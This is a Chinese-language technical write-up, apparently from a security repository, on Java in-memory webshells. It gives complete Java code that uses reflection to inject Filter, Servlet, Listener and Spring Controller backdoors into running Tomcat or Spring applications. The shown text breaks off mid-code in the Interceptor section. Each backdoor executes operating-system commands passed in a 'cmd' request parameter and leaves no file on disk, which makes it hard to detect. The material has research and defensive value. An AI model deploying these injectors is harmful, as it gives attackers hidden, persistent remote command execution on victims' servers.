






- [JAVA 内存马](#java-内存马)
  - [基于Servlet 3.0 API](#基于servlet-30-api)
    - [Filter](#filter)
      - [FilterChain](#filterchain)
        - [FilterMaps](#filtermaps)
        - [FilterConfig](#filterconfig)
        - [注入思路](#注入思路)
      - [实现代码](#实现代码)
    - [Serverlet](#serverlet)
      - [Context#Servlet初始化](#contextservlet初始化)
      - [实现思路](#实现思路)
        - [wapper](#wapper)
        - [ServletMapping](#servletmapping)
      - [实现代码](#实现代码-1)
    - [Listener](#listener)
      - [applicationEventListenersList](#applicationeventlistenerslist)
      - [实现思路](#实现思路-1)
      - [实现代码](#实现代码-2)
  - [基于框架](#基于框架)
    - [Spring框架](#spring框架)
      - [Controller](#controller)
        - [Controller的注册流程](#controller的注册流程)
        - [注入思路](#注入思路-1)
        - [实现思路](#实现思路-2)
      - [Interceptor](#interceptor)
        - [注入思路](#注入思路-2)
        - [实现代码](#实现代码-3)
    - [Tomcat Valve](#tomcat-valve)
      - [Pipeline](#pipeline)
      - [ContainerBase#addValve](#containerbaseaddvalve)
      - [实现思路](#实现思路-3)
      - [实现代码](#实现代码-4)
    - [Tomcat WebSocket](#tomcat-websocket)
      - [生命周期](#生命周期)
      - [使用方式](#使用方式)
        - [注解](#注解)
        - [继承](#继承)
      - [实现思路](#实现思路-4)
      - [实现代码](#实现代码-5)
  - [JAVA Agent](#java-agent)
  - [Timer](#timer)
    - [实现思路](#实现思路-5)
    - [实现代码](#实现代码-6)
  - [Thread](#thread)
    - [实现代码](#实现代码-7)
  - [JSP](#jsp)
    - [实现思路](#实现思路-6)
    - [实现代码](#实现代码-8)
  - [查杀](#查杀)
    - [检查防御](#检查防御)
      - [Hook动态添加调用](#hook动态添加调用)
      - [Dump Class](#dump-class)
      - [Agent马](#agent马)
    - [清除](#清除)
  - [参考](#参考)

# JAVA 内存马
内存马的实现思路主要是通过Servlet API(或者web框架类似的功能)提供的动态修改特性(不同容器对该接口实现不同)向运行中的Web容器实时植入相关运行代码,而这种方式添加的代码会直接被加入到内存中被执行而不会在硬盘上以文件的方式存在,即无文件落地执行,从而称为内存马,这导致内存马比常规的Webshell更难被发现和查杀,隐蔽性更高,缺点則是因为是放在在内存中执行,正常情况下如果Web容器重启则相关植入的代码则会被清除.  
## 基于Servlet 3.0 API
从Servlet 3.0 API开始允许用户在代码中动态注册Servlet,Filter,Listener,而Servlet,Listener,Filter都是由`javax.servlet.ServletContext`去加载.
  
可以看到该`ServletContext`接口中分别提供了相关的`add`和`create`方法,然后不同Web容器对该方法进行实现即可,后续测试以tomcat 8.5.64为例.  

而一般注入内存马有两种方式  
* 先通过漏洞上传jsp文件,通过该jsp文件执行相关java代码向内存中植入内存马,再将jsp文件删除即可.  
这种方式还是需要先通过文件落地的方式做载体,用于将文件webshell转为内存Webshell.  
* 通过可以直接执行java代码的漏洞植入内存马(反序列化漏洞等).   
这种方式才是纯粹的无文件落地内存马,但对漏洞利用环境要求严格.
### Filter
Filter即过滤器,过滤器类在Web容器中往往是最先执行的Servlet,常用于执行权限校验等和业务逻辑无关的操作,而Filter内存马即通过相关的动态API向Web容器中注册一个恶意的Filter类,并将其放到整个Filter执行链的最前面,这样每次请求Web容器都会执行我们恶意Filter类中的代码.  
#### FilterChain 
Filter的执行都是以链的形式依次执行的,而想要将恶意的Filter加入到该链中首先要知道这个FilterChain是怎么得到的.
而在tomcat中,对于每个请求,FilterChain都是动态生成的,具体实现代码在`ApplicationFilterFactory#createFilterChain`中.
  
从该类的实现中可以看到每次请求的`FilterChain`生成流程如下:
1. 首先从`(StandardContext)Context`中获取到`FilterMaps`.
2. 根据该请求的url依次与`FilterMaps`中的各Filter的url进行匹配,如果匹配则根据匹配Filter的name在`(ApplicationFilterConfig)Context`中获取到对应的`ApplicationFilterConfig`对象,并将其`ApplicationFilterConfig`对象加入到filterChain中.
3. 后续通过依次执行`filterChain`中`ApplicationFilterConfig`对象的`getFilter()`方法得到对应的Filter实例来执行其`DoFilter`方法.  

根据该流程,那么需要满足两个条件.  
1. 首先要在`(StandardContext)Context`的`FilterMaps`中添加FilterMap.  
2. 在`(ApplicationFilterConfig)Context`添加对应的`filterConfig`.  
##### FilterMaps
而FilterMaps的生成是在`ApplicationFilterRegistration#addMappingForUrlPatterns`方法中.
  
  
可以看到Filter的name是从一个`FilterDef`对象获得的,然后设置该FilterMap的url匹配规则和name,然后调用`StandardContext#addFilterMap`将其加入到`FilterMaps中`.
##### FilterConfig
FilterConfig的生成則是在`StandardContext#filterStart`中.  
  
可以看到其从`filterDefs`中循环取出`FilterDef`对象生成`ApplicationFilterConfig`放入`filterConfigs`中.
##### 注入思路
根据以上的原理,我们首先可以先调用`ApplicationFilterRegistration#addMappingForUrlPatterns`来添加FilterMap,其中`FilterDef`对象是由`ApplicationFilterRegistration`的构造函数中赋值,寻找创建`ApplicationFilterRegistration`对象的地方可以发现正是在tomcat实现Servlet 3.0 API `addFilter`接口的地方`ApplicationContext#addFilter`返回了`ApplicationFilterRegistration`对象.  
  
可以根据Filter类路径和Filter类实例来生成对应的`FilterDef`,我们只能通过传入恶意Filter实例类,然后再调用`addMappingForUrlPatterns`方法即可添加 `FilterMap`了.  
但在前面还有一个应用生命周期的判断,这里需要使用反射进行修改绕过,添加后再修改回来.  
```java
        if (!context.getState().equals(LifecycleState.STARTING_PREP)) {
            //TODO Spec breaking enhancement to ignore this restriction
            throw new IllegalStateException(
                    sm.getString("applicationContext.addFilter.ise",
                            getContextPath()));
        }
```
然后调用`StandardContext#filterStart`生成`ApplicationFilterConfig`,而向其中的`filterDefs`变量添加对应的`FilterDef`則是直接调用`addFilterDef`即可.

#### 实现代码
上述的实现思路知道原理后其实很多地方可以直接使用反射来修改`filterConfigs`和`FilterMaps`变量,而不用再分别去调用相关方法添加相关对象,更加简洁.  
几个关键点:
1. 使用反射添加的话就不必考虑`addMappingForUrlPatterns`中对运行状态的判断了
2. 添加FilterMap的时候,由于FilterMaps对象是一个ContextFilterMaps类,而该类是StandardContext对象的私有内部类,通过反射无法显式得到该属性的类型,无法直接强制转换,可以通过反射得到其相关add方法来添加FilterMap.
3. ContextFilterMaps类有两个addFilter方法,使用`addBefore`則是将该Filter添加在常规Mapping映射的Filter前面,一般来说就是在用户自定义filter的前面了,而不必再对filterMaps属性手动调换位置. 
```java
package org.example.Servlets;

import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;

public class ShellFilter extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext o = null;
        //如果已有则避免重复添加
        if (servletContext.getFilterRegistration("shellFilter") != null) {
            return;
        }
        while (o ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    o = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
        //生成FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilterName("shellFilter");
        filterDef.setFilter(getFilter());
        filterDef.setFilterClass(getFilter().getClass().getName());
        //生成ApplicationFilterConfig,并添加到filterConfigs
        Constructor<?>[] constructor = ApplicationFilterConfig.class.getDeclaredConstructors();
        constructor[0].setAccessible(true);
        try {
            ApplicationFilterConfig config = (ApplicationFilterConfig) constructor[0].newInstance(o, filterDef);
            Field filterConfigsField;
            try {
                filterConfigsField = o.getClass().getDeclaredField("filterConfigs");
                filterConfigsField.setAccessible(true);
                HashMap<String, ApplicationFilterConfig> filterConfigs = (HashMap<String, ApplicationFilterConfig>) filterConfigsField.get(o);
                filterConfigs.put("shellFilter", config);
                //生成FilterMap,并添加到FilterMaps
                FilterMap filterMap = new FilterMap();
                filterMap.setFilterName("shellFilter");
                filterMap.addURLPattern("*");
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                //得到FilterMaps对象
                Field filterMapField = o.getClass().getDeclaredField("filterMaps");
                filterMapField.setAccessible(true);
                Object object = filterMapField.get(o);
                //FilterMaps对象是一个ContextFilterMaps类,而该类是StandardContext的私有内部类,无法直接强制转换,通过反射得到其add方法来添加FilterMap.
                Class<?> cl = Class.forName("org.apache.catalina.core.StandardContext$ContextFilterMaps");
                Method m = cl.getDeclaredMethod("addBefore", FilterMap.class);
                m.setAccessible(true);
                m.invoke(object, filterMap);
            } catch (NoSuchFieldException | ClassNotFoundException | NoSuchMethodException e) {
                throw new RuntimeException(e);
            }

        } catch (InstantiationException | IllegalAccessException | InvocationTargetException e) {
            throw new RuntimeException(e);
        }
        resp.getWriter().println("inject done");

    }
    public Filter getFilter(){
        return new Filter() {
            @Override
            public void init(FilterConfig filterConfig) {

            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException {
                if (request.getParameter("cmd") != null) {
                    Runtime.getRuntime().exec(request.getParameter("cmd"));
                    response.getWriter().println("exec cmd with "+request.getParameter("cmd"));
                }else {
                    response.getWriter().println("shellFilter inject");
                }
            }

            @Override
            public void destroy() {

            }
        };
    }
}

```
先访问该路由注入内存马后,访问任意URL,只要带上cmd参数即可.
  
  
实际场景中,将相关代码用JSP文件做载体访问执行即可.
### Serverlet
Serverlet即Web容器中一个个运行的逻辑模块,Serverlet内存马即通过动态API注入含有恶意代码的Serverlet到内存中,实现访问特定的url触发相关代码执行,同样的首先理清楚在web容器中Serverlet的生成流程,而在tomcat中动态添加Serverlet的方法是在tomcat7中才有的.
#### Context#Servlet初始化
在tomcat启动的过程中,在`org/apache/catalina/startup/ContextConfig#webConfig()`方法中配置应用的整个环境context,其中在第9步开始读取web.xml文件来解析其中的内容添加到context中,而Servlet的定义正是在其中.  
  
而在`configureContext`中其配置servlet的步骤如下.  
  
解析web.xml后,其中的servlet定义全部被转换为了`ServletDef`对象,然后依次对每个`ServletDef`进行处理,可以看到其创建了一个wrapper来包装每一个servlet.  
  
在最后再将该wapper和对应的`ServletMapping`添加到了context中.  
所以想要添加servlet的话那么就需要向context中加入包装servlet的wapper和对应的mapping映射即可.
#### 实现思路
##### wapper
添加wapper的思路很简单,与初始化流程类似,创建一个wapper,设置相关属性为要注入的servlet即可,然后调用`standardContext.addChild(wrapper)`即可.
##### ServletMapping
同样的调用`standardContext.addServletMappingDecoded()`方法添加即可.
#### 实现代码
```java
package org.example.Servlets;

import org.apache.catalina.Wrapper;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

public class ShellServlet extends HttpServlet {

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        //如果已有则避免重复添加
        if (servletContext.getServletRegistration("shellServlet") != null) {
            resp.getWriter().println("injected");
            return;
        }
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
        Servlet httpServlet = getServlet();
        //创建wrapper添加到standardContext
        Wrapper wrapper = standardContext.createWrapper();
        wrapper.setName("shellServlet");
        wrapper.setLoadOnStartup(1);
        wrapper.setServlet(httpServlet);
        wrapper.setServletClass(httpServlet.getClass().getName());
        standardContext.addChild(wrapper);
        //添加URL映射
        standardContext.addServletMappingDecoded("/servletShell","shellServlet");
        resp.getWriter().println("inject done");
        }

public Servlet getServlet(){
        return  new Servlet() {
            @Override
            public void init(ServletConfig config) throws ServletException {

            }

            @Override
            public ServletConfig getServletConfig() {
                return null;
            }

            @Override
            public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
                if (req.getParameter("cmd") != null) {
                    Runtime.getRuntime().exec(req.getParameter("cmd"));
                    res.getWriter().println("exec cmd with "+req.getParameter("cmd"));
                }else {
                    res.getWriter().println("shellServlet inject");
                }
            }

            @Override
            public String getServletInfo() {
                return null;
            }

            @Override
            public void destroy() {

            }
        };
}
}

```
  
先访问该路由注入内存马后,访问映射的Url即可.  
  
### Listener
Listener即监听器,在web容器中可以监听一些事件发生并执行相关的逻辑操作,同样该特性也可以用来注入内存马,使得在特定条件下执行我们的恶意代码.
#### applicationEventListenersList
在tomcat中,其实现的`addListener()`方法如下.  
  
  
可以看到其将Listener加入到了context的`applicationEventListenersList`属性中,也就是说`applicationEventListenersList`即储存了web容器的listener,而且可以看到Listener是`EventListener`的子类.
#### 实现思路
实现思路则很简单,直接利用反射获取到`applicationEventListenersList`属性再添加恶意的listener即可.  
而不同的Listener在不同的条件下触发,而作为内存马的Listener需要具有通用性,保证能稳定触发.  
通常在内存马中使用`ServletRequestListener`进行注入.  
  
其定义了两个方法,分别在一个请求创建和销毁时触发,并且可以从其传入的`ServletRequestEvent`对象获取到`ServletRequest`.  
#### 实现代码
```java
package org.example.Servlets;

import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.EventListener;

public class ShellListener extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
        standardContext.addApplicationEventListener(getListener());
    }
    
    public EventListener getListener() {
            return new ServletRequestListener() {
                @Override
                public void requestDestroyed(ServletRequestEvent sre) {
                }
                @Override
                public void requestInitialized(ServletRequestEvent sre) {
                    if(sre.getServletRequest().getParameter("cmd")!=null) {
                        try {
                            Runtime.getRuntime().exec(sre.getServletRequest().getParameter("cmd"));
                        } catch (IOException e) {
                            throw new RuntimeException(e);
                        }
                    }
                }
            };
    }
}

```
访问路由后,在之后的请求中带上cmd参数即可.
## 基于框架
跳开Servlet API的局限,同样只要是提供了类似的方法和模式的框架都可以进行内存马的注入.
### Spring框架
以Spring框架为例,其Controller有点类似于Servlet,其路由模式都依赖于URL的路径映射,而在Spring中同样有动态添加Controller的方法,而在Spring中注入内存马的方法在大部分场景下都是通过反序列化等直接执行java代码了,因为Spring生态对jsp支持并不好.
#### Controller
在Spring中Controller注解配置了方法与URL的路径关系,而解析Controller注解的流程始于SpringMVC初始化时对每个Bean进行初始化时会对含有Controller注解的bean调用`RequestMappingHandlerMapping`类进行处理.
##### Controller的注册流程  
SpringMVC在启动时,对Bean的初始化流程大致如下.  
  
在设置完相关属性后,如果该会调用`afterPropertiesSet`来设置该bean的其它配置,其中如果该Bean含有Controller或者RequestMapping注解的话则会调用`initHandlerMethods`来配置各个方法.  
  
   
 在`isHandler`中判断是否含有相关注解.
 
 然后使用`detectHandlerMethods`来配置每一个Hanlder的方法,其中依次调用`getMappingForMethod`方法来得到每个方法的`RequestMapping`注解,然后将含有`RequestMapping`注解和对应的method的方法存入一个map中.  
  
在最后可以看到对map中的方法调用`registerHandlerMethod`方法.  
最后在`org/springframework/web/servlet/handler/AbstractHandlerMethodMapping.java`中将路径,方法等信息注册到registry中,这样就完成对应路径和方法映射的注册.

##### 注入思路
知道了正常情况Controller的注册流程后则注入内存马的就很简单了,反射得到RequestMappingHandlerMapping,并调用其`registerMapping`方法注入即可.
##### 实现思路  
Spring 2.5 开始到 Spring 3.1 之前一般使用`org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping`映射器 ；

Spring 3.1 开始及以后一般开始使用新的`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping`映射器来支持@Contoller和@RequestMapping注解。  
所以根据不同版本注入的方式有一定区别.  
1. 在Spring 4.0之后可以直接使用registerMapping注册,最为简单,且该方法不需要强制使用 @RequestMapping 注解定义 URL 地址和 HTTP 方法.
```java
package springweb.controller;

import com.alibaba.fastjson.JSON;
import org.springframework.web.bind.annotation.*;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.mvc.Controller;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import org.springframework.web.servlet.support.RequestContextUtils;
import springweb.beans.evilController;

import java.lang.reflect.Method;

@RestController
public class MemoryShellController {
    @RequestMapping("/controllerInject")
    public String controllerInject() {
        WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
        Controller controller = evilController.getController();
        Method method = controller.getClass().getDeclaredMethods()[0];
        PatternsRequestCondition url = new PatternsRequestCondition("/springShell");
        RequestMethodsRequestCondition mc = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(url, mc, null, null, null, null, null);
        mapping.registerMapping(info, controller, method);
        return "";
    }

}

```
```java
package springweb.beans;

import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.mvc.Controller;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;
import java.util.Scanner;

public class evilController {
    public static Controller getController(){
        return new Controller() {
            @Override
            public ModelAndView handleRequest(HttpServletRequest request, HttpServletResponse response) throws Exception {
                String cmd = request.getParameter("cmd");
                PrintWriter writer = response.getWriter();
                if (cmd != null) {
                    String o = "";
                    ProcessBuilder p;
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        p = new ProcessBuilder("cmd.exe", "/c", cmd);
                    } else {
                        p = new ProcessBuilder("/bin/sh", "-c", cmd);
                    }
                    Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
                    o = c.hasNext() ? c.next() : o;
                    c.close();
                    writer.write(o);
                    writer.flush();
                    writer.close();
                } else {
                    response.sendError(404);
                }
                return null;
            }
        };
    }
}


```  
使用如果使用SpringBoot 2.6.0或更高版本会有lookupPath错误.
2. 针对以前的映射器可以通过以下思路,注意该方式需要在`evilController`使用RequestMapping指定对应方法的路径.  
```java
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", new evilController());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/shellpath", "dynamicController");
```
3. 针对新的映射器也可以调用`detectHandlerMethods`来注册,该方式也需要在`evilController`使用RequestMapping指定对应方法的路径.
```java
context.getBeanFactory().registerSingleton("dynamicController", new evilController());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```  
原理都是知道正常controller注册的流程后,直接反射调用正常流程中某一个步骤构造对应参数调用即可.  

#### Interceptor 
Interceptor即Spring中的拦截器,类似于Servlet中的Filter,而Interceptor针对Controller进行拦截,在指定的Controller执行之前会先调用Interceptor.
在HandlerInterceptor接口中,其提供了如下几个接口.  
  
可以看到通过这几个方法可以获得请求对象来执行相关代码,同样的则可以注入拦截器内存马,执行恶意代码.  
当SpringMvc在处理每一个Handler时,通过 HandlerMapping 的 getHandler 方法获取到对应的Hanlder,而就是在其中会通过`getHandlerExecutionChain`来得到该Hanlder执行前的拦截器列表,而拦截器列表可以看到是储存在`adaptedInterceptors`变量中的.  
  
##### 注入思路
只需要将恶意的Interceptor直接添加进`adaptedInterceptors`变量即可.
##### 实现代码
```java
    public  void interceptorInject() throws NoSuchFieldException, IllegalAccessException {
        WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
